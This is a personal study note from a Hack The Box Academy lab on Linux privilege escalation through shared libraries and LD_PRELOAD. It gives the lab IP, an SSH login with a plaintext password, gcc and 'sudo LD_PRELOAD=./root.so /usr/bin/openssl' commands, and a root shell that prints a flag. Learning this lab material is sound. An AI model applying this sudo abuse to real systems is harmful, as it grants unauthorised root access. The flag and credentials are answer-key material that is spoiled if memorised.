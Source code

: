 #### Static Libraries
- Denoted by .a extension
- cannot be altered when compiled
#### Dynamically Linked Libraries
- denoted by .so extension
- can be modified to control the execution of the program that calls them

#### Specifying the locations of dlls
- Environment variables `LD_RUN_PATH`,  `LD_LIBRARY_PATH`, `LD_PRELOAD`
- placing them in default directories /lib or /usr/lib
- specifying another directory containing the libraries within the `/etc/ld.so.conf`
#### List all libraries required by /bin/ls
```
ldd /bin/ls
```

### Using LD_PRELOAD to Priv Esc
- Need a sudo user

## Questions

IP
```
10.129.62.179
```

SSH
```
ssh htb-student@10.129.62.179
```

Password
```
Academy_LLPE!
```

What privileges does the user have?
![[Pasted image 20240622210013.png]]

User has the LD_PRELOAD env var set and can execute openssl with sudo

Compile script
```
gcc -fPIC -shared -o root.so root.c -nostartfiles
```

Execute script
```
sudo LD_PRELOAD=./root.so /usr/bin/openssl
```

Root Flag
```
root@NIX02:~# ls -l ../../root
total 16
drwxr-xr-x 2 root root 4096 Jan 25 11:28 cron_abuse
drwxrwxr-x 2 root root 4096 Jan 25 11:28 kernel_exploit
drwxr-xr-x 2 root root 4096 Jan 25 11:28 ld_preload
drwx------ 2 root root 4096 Jan 25 11:28 screen_exploit
root@NIX02:~# cat ../../root/ld_preload/flag.txt
6a9c151a599135618b8f09adc78ab5f1
root@NIX02:~# 
```


